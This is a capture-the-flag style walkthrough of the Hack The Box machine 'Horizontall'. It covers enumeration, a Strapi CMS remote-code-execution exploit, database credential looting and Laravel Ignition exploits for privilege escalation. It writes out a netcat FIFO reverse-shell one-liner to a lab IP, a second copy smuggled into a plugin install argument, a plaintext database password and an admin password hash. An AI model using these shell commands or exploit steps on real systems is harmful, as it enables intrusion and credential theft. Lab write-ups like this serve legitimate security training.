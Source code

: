 # Horizontal

![Horizontall.png](Horizontal/Horizontall.png)

### 08/29/2021

The ip automatically resolve to horizontall.htb

![Untitled](Horizontal/Untitled.png)

Subdomains bruteforce:

![Untitled](Horizontal/Untitled%201.png)

With the directories enumeration we can discover some interesting directories like reviews, it appears to be a API.

![Untitled](Horizontal/Untitled%202.png)

Strapi api version:

![Untitled](Horizontal/Untitled%203.png)

[https://packetstormsecurity.com/files/163950/Strapi-CMS-3.0.0-beta.17.4-Remote-Code-Execution.html](https://packetstormsecurity.com/files/163950/Strapi-CMS-3.0.0-beta.17.4-Remote-Code-Execution.html)

I tested this exploit and it works well, RCE also works. 

![Untitled](Horizontal/Untitled%204.png)

Probably the connection will be done with id_rsa or interesting file, with netcat we can look the output. 

![Untitled](Horizontal/Untitled%205.png)

The command don't exit of this directory, we have to try list files and read each one.

![Untitled](Horizontal/Untitled%206.png)

Listing directory

![Untitled](Horizontal/Untitled%207.png)

CD command doesn't work. 

![Untitled](Horizontal/Untitled%208.png)

Transversal execution of linpeas.

![Untitled](Horizontal/Untitled%209.png)

Path of binaries 

![Untitled](Horizontal/Untitled%2010.png)

This reverse worked perfectly:

```java
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1234 >/tmp/f
```

Passing the reverse to python.

![Untitled](Horizontal/Untitled%2011.png)

### Strapi is the leading open-source Headless CMS.

Database login file:

```java
cat /myapi/config/environments/development/database.json
```

![Untitled](Horizontal/Untitled%2012.png)

```java
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

![Untitled](Horizontal/Untitled%2013.png)

```java
ssh -R 1337:localhost:1337 strapi@10.10.11.105

http://localhost:1337/admin

admin    | admin@horizontall.htb | $2a$10$wZOeplNzijDtfaYGBR9wqOvD.cMMCRN4HBA7PgTkTnj0Ymvhv0e6W
drwxr-xr-x 2 root root 4096 Aug  3 21:16 /usr/share/keyrings
/usr/share/bash-completion/completions/bind

strapi "install" "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1234 >/tmp/f)"
```

### Dissecting the exploit

This function verify the version of strapi that is returned by this page

![Untitled](Horizontal/Untitled%2014.png)

Reset password: note that in the response returns admin True

![Untitled](Horizontal/Untitled%2015.png)

Manually craft exploration:

![Untitled](Horizontal/Untitled%2016.png)

Calls to insert code

![Untitled](Horizontal/Untitled%2017.png)

$gt. Returns any documents that have a value that is greater than the specified value in the set. It is also referred to as the greater than comparison operator.

To make execution of commands we need of JWT token. The execution of commands is done in plugins install page, sending json code with command. 

![Untitled](Horizontal/Untitled%2018.png)

It returns forbidden because we need insert JWT in authorization header.

![Untitled](Horizontal/Untitled%2019.png)

Now authenticated with cookie, we have to create a jwt with plugin and command execution passing port 1337.

![Untitled](Horizontal/Untitled%2020.png)

Working command execution:

![Untitled](Horizontal/Untitled%2021.png)

To make port forwarding just add your pubkey in authorized_keys and runs the port forwarding using SSH. 

![Untitled](Horizontal/Untitled%2022.png)

It's a Laravel PHP v7.4.18

![Untitled](Horizontal/Untitled%2023.png)

Laravel exploit code: [https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py), this exploit discover the PATH of logs.

The second exploit execute commands:

[https://packetstormsecurity.com/files/160951/Laravel-8.4.2-Remote-Code-Execution.html](https://packetstormsecurity.com/files/160951/Laravel-8.4.2-Remote-Code-Execution.html)

After many tries  i get the command execution: in payload put between "" to execute all command.

![Untitled](Horizontal/Untitled%2024.png)

[https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat](https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat)